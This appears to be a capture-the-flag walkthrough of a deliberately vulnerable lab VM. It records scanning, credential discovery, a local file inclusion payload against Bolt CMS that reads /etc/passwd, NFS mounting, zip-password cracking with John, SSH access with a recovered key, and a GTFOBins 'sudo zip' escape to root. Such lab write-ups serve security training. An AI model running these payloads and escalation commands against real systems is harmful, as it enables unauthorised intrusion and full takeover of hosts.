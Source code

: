 ```python
export TARGET_IP=192.168.254.136
export TARGET_MAC=00:0c:29:be:e9:df
export TARGET_NETWORK=192.168.254.0/24
```

scanning
```python
sudo arp-scan -l  
```
192.168.254.136	00:0c:29:be:e9:df	VMware, Inc.


nmap port disco
```python
sudo nmap -T4 $TARGET_IP
```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
8080/tcp  open  http-proxy
39267/tcp open  unknown
40127/tcp open  unknown
44855/tcp open  unknown
50607/tcp open  unknown


```python
sudo nmap -A -T4 -p 21,22,80,111,2049,8080,39267,40127,44855,50607 -v $TARGET_IP
```

PORT      STATE  SERVICE  VERSION
21/tcp    closed ftp
22/tcp    open   ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
|   256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp    open   http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Bolt - Installation error
111/tcp   open   rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      34431/tcp6  mountd
|   100005  1,2,3      39267/tcp   mountd
|   100005  1,2,3      49004/udp   mountd
|   100005  1,2,3      56697/udp6  mountd
|   100021  1,3,4      40761/udp   nlockmgr
|   100021  1,3,4      44357/tcp6  nlockmgr
|   100021  1,3,4      44855/tcp   nlockmgr
|   100021  1,3,4      54956/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open   nfs      3-4 (RPC #100003)
8080/tcp  open   http     Apache httpd 2.4.38 ((Debian))
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
39267/tcp open   mountd   1-3 (RPC #100005)
40127/tcp open   mountd   1-3 (RPC #100005)
44855/tcp open   nlockmgr 1-4 (RPC #100021)
50607/tcp open   mountd   1-3 (RPC #100005)
MAC Address: 00:0C:29:BE:E9:DF (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Uptime guess: 44.366 days (since Thu Sep 26 17:54:58 2024)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.19 ms 192.168.254.136

```python
gobuster dir -u http://$TARGET_IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

```python
dirb http://$TARGET_IP -w
```
found dir with file containing 
   driver: sqlite
    databasename: bolt
    username: bolt
    password: I_love_java

```python
dirb http://$TARGET_IP:8080 -w
```
found
http://192.168.254.136:8080/dev/index.php
took me to bolt cms login page version 6.03
found
http://192.168.254.136:8080/dev/pages/member.admin
http://192.168.254.136:8080/dev/pages/member.thisisatest
contents:

~data~
password: I_love_java
~
~data~
password: thisisatest
~
used
username: admin
password: I_love_java
successful login

found CVE
https://www.exploit-db.com/exploits/48411
local file inclusion
http://192.168.254.136:8080/dev/index.php?p=action.search&action=../../../../../../../etc/passwd
success

found user
jeanpaul:x:1000:1000:jeanpaul,,,:/home/jeanpaul:/bin/bash
 i think this is his password
~data~
password: thisisatest
~

```python
showmount -e 192.168.254.136
```

```python
sudo mkdir -p /mnt/nfs
sudo mount -t nfs 192.168.254.136:/srv/nfs /mnt/nfs
```

used ls -lah and found save.zip

```python
cp save.zip /home/kali/peh/dev/save.zip
```
password protected

```python
zip2john save.zip > save.hash
```

```python
sudo john --wordlist=/usr/share/wordlists/rockyou.txt save.hash
```

contains two files
todo.txt
id_rsa

```python
chmod 600 id_rsa
```

```python
ssh jeanpaul@192.168.254.136
```
passphrase = thisisatest

checked sudo -l
zip was on there

GTFOBins
```python
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```
boom root!

cd /root
pwd 
/root
ls -alh
total 36K
drwx------  4 root root 4.0K Nov 15  2022 .
drwxr-xr-x 18 root root 4.0K Jun  1  2021 ..
lrwxrwxrwx  1 root root    9 Nov 15  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4.0K Jun  1  2021 .config
-rw-r--r--  1 root root   31 Jun  2  2021 flag.txt
drwxr-xr-x  3 root root 4.0K Jun  1  2021 .local
-rw-------  1 root root    1 Jun 28  2021 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root  303 Jun  1  2021 .wget-hsts
cat flag.txt
Congratz on rooting this box !
